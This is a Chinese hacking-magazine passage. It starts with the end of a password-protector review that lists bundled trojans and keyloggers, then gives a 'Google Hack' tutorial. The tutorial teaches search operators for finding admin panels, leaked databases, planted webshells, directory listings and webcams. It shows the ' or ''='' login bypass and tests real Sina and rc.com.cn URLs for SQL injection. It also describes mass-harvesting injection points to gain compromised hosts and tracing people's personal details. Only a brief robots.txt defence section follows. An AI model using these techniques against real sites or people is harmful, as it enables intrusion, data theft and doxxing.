就像我在前面介绍的一样，网银保护这个功能，就像把所有网银密码都放到一个大箱子中，然后需要时就打开箱子（当然打开这个箱子也要用户名与密码），从中选择需要的密码。

可是如果“网银大盗”这类木马直接从江民密保里将我们的密码全部取出来，又会发生什么样的情况呢？不敢想象！通过对聊天软件、网络游戏、网上银行的全方位测试，我们对密保的评价很不理想，所以大家千万不能随便相信一些杀毒软件厂商吹嘘的广告词！本来想测试完了给广大读者推荐一款实用的安全防护工具以保卫我们可怜的密码，谁知道却变成了一篇“打假”的文章，实在令人遗憾！不过这或许跟我测试环境也有关系，文章中有什么不对的地方，还请高手们指教。也希望有一天江民能推出一款真正有效的密保，能够保护大家的安全！

（文章中涉及到的工具：江民密保、完美QQ大盗、红蜘蛛键盘记录器台银版、嘟咕梦幻西游木马、大话西游专用盗号木马等，已经收录于光盘中）


## ——让 Google 成为菜鸟最强大的武器

安静的小E

### 一、Google Hack 的作用

不可否认，Google 是世界上最强大的搜索引擎之一。我们在日常的工作和学习中，都会经常使用 Google 搜索自己需要的信息。但是凡事有利就有弊，在 Google 强大的数据收录背后又藏着多少秘密呢？你是否知道自己的隐私在不经意间已经被 Google 毫无保留地“公布于世”了呢？

06年初网络“艳照铜须事件”发生后，铜须的 QQ、MSN 和邮件等资料都被黑客盗取并公布，事件由网络谩骂变成了现实生活中的追杀；“虐猫事件”中，网民“碎玻璃渣子”在网络公布一组虐猫视频截图，网友通过“各种手段”查出虐猫拍摄地点，对其进行人身攻击……

这些事件中所提到的“各种手段”，事实上就是利用搜索引擎的强大功能，将目标的相关信息一一查找出来。可想而知，当如此强大的技术摆在黑客面前的时候，它的威力会有多么可怕！笔者总结了当今黑客最喜欢使用 Google 进行 hack 行动的几点：

- 在入侵目标之前，通过 Google 充分掌握目标的相关信息。
- 发现或公布某个漏洞之后，通过 Google 大量搜索存在漏洞的网站进行攻击。
- 边入侵边搜索，根据入侵时遇到的不同情况搜索不同的入侵工具和方法。
- 直接搜索数据库文件等包含大量个人隐私信息的文件。
- 搜索别人入侵后留下的后门甚至是盗得的 QQ 号记录文件，渔翁得利。
- 其它。

综合这几点，一个新的名词诞生了，那就是 Google Hack，意思是充分利用 Google 强大的搜索功能应用到 hack 当中去。要掌握 Google Hack，那么至少要比一般人更熟悉 Google 的使用，学会必要的 Google 搜索技巧！

### 二、Google 的基本语法

Google 比一般搜索引擎的强大之处，除了它收录的信息更大之外，最重要的一点就是它支持强大的语法功能。可以指定任意关键字出现的地方，或者只搜索和某个网站相关的信息。我们列出几个常用的语法。

#### 1. Google 的逻辑表达式

Google 支持很多逻辑运算。比如最近 PHPWIND 论坛出了大漏洞，我们可能需要搜索 phpwind 做关键字来查找相关网站。但是这样做的缺点是官方论坛相关网页都会显示在第一页，很明显官方网站肯定是补丁打得牢牢的，黑它肯定没戏。那就用个减号“-”让 phpwind.net 相关内容不要出现在搜索结果里好了，我们搜索 **phpwind -phpwind.net** 做关键字，效果如图1。


图1


图2

#### 2. 引号的用法

Google 会自动分析和提取搜索关键字里的一些主要元素进行智能判断。例如搜索“职业欠钱”和搜索“职业欠钱”（含引号）绝对是两种不同效果。不加引号搜索出来的结果往往是把“职业”和“欠钱”拆开来查询的，加了引号得到的就是两个词连在一起的精确结果，如图2。

#### 3. OR 的用法

PHPWIND 4.3.2 版本的论坛曾经出现过一个漏洞，漏洞主要发生在 register.php 和 sendpwd.php 文件上。那么搜索关键字 **register.php OR sendpwd.php** 就可以找出包含“register.php”或者包含“sendpwd.php”信息的页面。

> **注意：** 这里的 OR 是大写，小写的 or 会被自动忽略。如果被搜索的内容中包含有 or 这个单词，则需要使用引号引起来。

#### 4. intitle 语法

顾名思义就是搜索标题包含的内容。因为很多系统后台标题栏都会有“管理员登录”的字样，那么我们搜索 **intitle:管理员登录** 看看，如图3。


图3

有不少后台可以用古老的 `' or ''='` 当作用户名和密码，登录后直接进入管理中心，如图4。比 inurl 更精确的还有 allintitle，它的作用是不拆分我们设置的标题关键字，这里就不举例了。

#### 5. inurl 语法

这是搜索网址中包含指定字符串的语法。就拿鬼仔的 BLOG——huaidan.org 来说吧，我们搜索地址栏包含 huaidan.org/blog 的所有信息，就是 **inurl:"huaidan.org/blog/"**，如图5。类似地，inurl 也有一个更精确的用法是 allinurl，大家可以自己体验一下。

#### 6. intext 语法

有的时候，一些网页的特征字符串是出现在页面里的。比如之前看到的一个系统，标题是“管理员登录”，而登录页面里有“系统管理中心”，那么我们搜索 **intitle:"管理员登录" intext:"系统管理中心"**，很快就能将它找出来，如图6。

#### 7. site 语法

我们要搜索指定网站的时候会用到这个语法。比如要入侵网易，那么搜索 **site:163.com** 可以找到 163.com 被 Google 收录的页面。


图4

为了避免超相关的结果，我们省略了与上面显示的3个类似条目。结合一些其它语法很容易就能找到突破点，比如 XX 分站的注入点。同类媒体喜欢炒作的“入侵网易、新浪”等文章，大多数是这样找到入口点的。

> 注意：使用 site 语法的时候，最好还会输入 www.163.com，而不是只写 site:163.com。

#### 8. filetype 语法

期末快到了，不少大学生可能又要焦头烂额地到网上寻找论文资料了吧？可惜大家使用普通关键字搜索出来的往往都是网页形式的资料，搞得不好还要注册收费才让看！实际上不用这么麻烦。假如我们要搜索 DOC 格式的资料，那么搜索“论文 filetype:doc”，如图7。

如果老师规定要 PDF 格式的论文，那就把 filetype 设为 PDF。当然，小黑们可能更喜欢搜索 filetype 为 MDB 的 Access 数据库文件，那些东西下载下来可有得一阵看的哟！关键字可设为 **inurl:".mdb" filetype:mdb**，如图8。


#### 9. 网页快照（这个或许不算语法吧）

用过百度的朋友可能都对百度快照非常喜欢。Google 其实也有这样的功能，但是不知道为什么，在大多数情况下直接点击“网页快照”是打不开的，提示找不到服务器端。解决方法其实也简单：访问 http://www.google.com//u/berkeley 会看到图9所示页面，在里面输入你要看的快照网址（比如 xdxf.net 现在已经关闭了，那么就在里面输入 xdxf.net，单击搜索，在新出来的页面里再单击“网页快照”），如图10。

好了，常用的 Google 语法和技巧就介绍这么多了。更多高级技巧留给大家使用关键字“Google 高级技巧——Google Hack”去学习吧。事实上，上面提到的语法还可以任意组合排列，那样发挥出来的威力更加强大！下面我们看看 Google Hack 的几个入侵实例。

### 三、Google Hack 实际应用

#### 1. 找前辈留下的 WebShell

就拿采飞扬的小马来说吧，小马上传成功后的界面包含：

- 兄弟先锋论坛（http://www.xdxf.net/index.asp）
- 情感空间（http://www.xdxf.net/list.asp?boardid=7）
- 第25岁的童话长卷生活的18岁忠告（http://www.xdxf.net/dispbbs.asp?boardid=7&id=1260）

“文件绝对路径 输入保存的路径 输入文件的内容”的字样，我们就以这个为搜索关键字吧：  
**绝对的路径 输入保存的路径 输入文件的内容 inurl:div.asp**，如图11。


再观察一下，其实这个马还有个更突出的特征，就是它的标题栏总是“旁注—网站小助手”。换个关键字试试看：**intitle:旁注—网站小助手**，如图12。

#### 2. 遍历目录漏洞

如果一个网站的 IIS 没有设置好，管理员在 IIS 中选中了目录浏览，那么恭喜你，网站死定了（小编：这里作者有点偏激了，打开目录浏览功能并不意味着网站死定了，不少管理员还是特意打开目录浏览以方便大家分享资源呢！不过在很多时候，不经意地打开目录浏览功能确实会造成网站敏感信息泄露，还请广大管理员小心）。

我们以 Leadbbs 为例吧，首先要知道 Leadbbs 程序中一个比较少见的脚本名，比如 makealltopanc.asp，以它做搜索关键字，如图13。现在我们可以慢慢在里面翻它的数据文件，下载回来后该论坛会员隐私就全部暴露在我们面前了！


> **小编：** 如果专门要找境外国家的漏洞，不妨直接搜索“[To Parent Directory]”这样的关键字。换成英文或其它语言，则可以搜索到不同国家的信息。假如我们要寻找存在目录浏览漏洞的动网论坛，就可以构造关键字“[To Parent Directory] intext:dvbbs”，搜索效果如图14。


#### 3. 寻找指定网站漏洞

现在来实际证明一下新浪是不是也能让我们小菜入侵。搜索关键字 `site:sina.com inurl:php`，返回的结果为 Sina 网站所有包含 php 链接的网址。在这里一个一个地挑，终于，找到 `http://post.sina.com.cn/topic/templet5.php?tid=55` 的时候，在后面加上 “and 1=1” 和 “and 1=2” 返回了明显不同的结果，如图15、图16。

肉鸡就是这么找的。而且凭经验，韩国的注入点拥有 SA 权限的非常多，日本的则非常少，在这里希望大家随便玩玩就好，别做过火的事。


把这个地址填到 PHP 注入辅助工具里，都惊讶地发现 MySQL 版本高于 4.0，但是 UNION 查询并未查出来到底有多少个字段，非常遗憾！

不管怎么说，找到注入点就是一件好事，很多大站的沦陷不就是因为一个小小的注入点么？用同样的方法，检测网易、搜狐、腾讯等其他门户网站，找出一些注入点不是难事，关键就看谁的运气好，找到的注入点权限高，就可以做更多的事了！

#### 4. 批量搜索注入点

小菜们刚开始学习注入攻击的时候，虽然工具多如牛毛，可是想找个存在漏洞的网站来练手还是很难的。实际上利用 Google，这是一件非常轻松的事情！我们配合啊D注入工具来进行，方法是打开啊D后，单击左边的“浏览网页”按钮打开浏览功能，在啊D的浏览器地址里输入 `www.google.cn`，然后进入“高级搜索”菜单，在“包含以下全部的字词”中填入 “asp?id=”，把默认的每页显示“10项结果”改为“100项结果”，单击“Google 搜索”，结果如图17。这样啊D会自动检测出很多存在注入漏洞的 URL，我们需要做的仅仅是在啊D自带的浏览器中一页又一页地往下点，等积攒了一定数量的 URL 后，我们就在该 URL 上右键，选择“注入检测”，图18就是一个典型的 dbo 权限的注入点。运气好的话，这样搜一上午能找出很多拥有 SA 权限的注入点，我以前肉鸡就是这么找的。


#### 5. 搜索后台

天底下最郁闷的事莫过于破解出账号密码却扫不出后台了！一般来说，结合 site 语法和后台通常会出现的关键字，Google 往往就能带给我们很大的惊喜！比如 `http://www.rc.com.cn/company/zczph_show.asp?id=331` 是我们无意中找到的一个注入点，`asp+Oracle` 的搭配已经让人奇怪，后台更是藏在 `www.rc.com.cn/hj1/` 下，使用扫描工具如何扫得出来？好在 Google 搜一下 `site:rc.com.cn intitle:后台` 就搞定了，如图19。


#### 6. 查找特定程序系统

X 档案上几乎每期都会介绍一些新漏洞、新工具，如何找到这些有漏洞的程序来练手呢？一般来说主要从三个方面着手。

- **版权信息**：像动网的底部一般都有“Powered By DvBBS”的字样，Discuz! 则有“Powered by Discuz!”。所以如果要找站点痕迹，就让 Google 去搜 Powered By 关键词。
- **存在漏洞的文件名**：例如 Discuz!、PhpNuke、PhpPeanuts 等程序常见漏洞文件，可通过 `inurl:` 检索相关文件名（如 `inspect.php`）定位目标。
- **与众不同的字句**：很多系统或站点会有个性化文案，搜索这些独特字句往往比搜版权信息更有效。

#### 7. 结合社会工程，追根溯源查找个人信息

早期黑客在入侵时往往不是直接技术突破，而是先通过逻辑和搜索获得目标信息后再下手。比如根据网站版权信息找到管理员名字、常用 ID、Email，再检索其论坛、blog、校友录等资料，综合信息后可能获取更多敏感线索。

`inurl:"ViewerFrame?Mode="`

通过该类关键字可搜索到大量网络摄像头页面，甚至可进行远程观察与控制（取决于设备安全设置）。


### 四、Google Hack 的防范

Google Hack 威力巨大，网上流传的防范方法是使用 `robots.txt` 来阻止 Google 等搜索引擎收录自己网站敏感信息。

> **小知识：什么是 robots.txt 文件？**
>
> 搜索引擎通过 robot（spider）自动访问网页并抓取信息。站点可创建纯文本 `robots.txt` 文件声明哪些目录不允许被抓取，或指定仅收录部分内容。

部分管理员会将后台目录改成怪异名称并配合 robots.txt 禁止访问目录，但若配置不当，反而可能暴露关键路径。文中举例说明了官方站点 robots.txt 的公开内容。


防护思路包括：后台目录不要使用可猜测名称；避免在前台暴露管理入口；后台登录页可限制前置认证；由程序侧控制搜索引擎不可访问等。

> **小编点评：**
>
> Google Hack 并非只依赖 Google，本质是利用搜索引擎进行信息搜集与路径发现。除 Google 外，其他搜索引擎亦可用于同类检索。实践中还涉及数据库、日志、公开脚本与自动化工具等更广泛的安全问题。

（文章中涉及的啊D注射工具已收录到光盘。）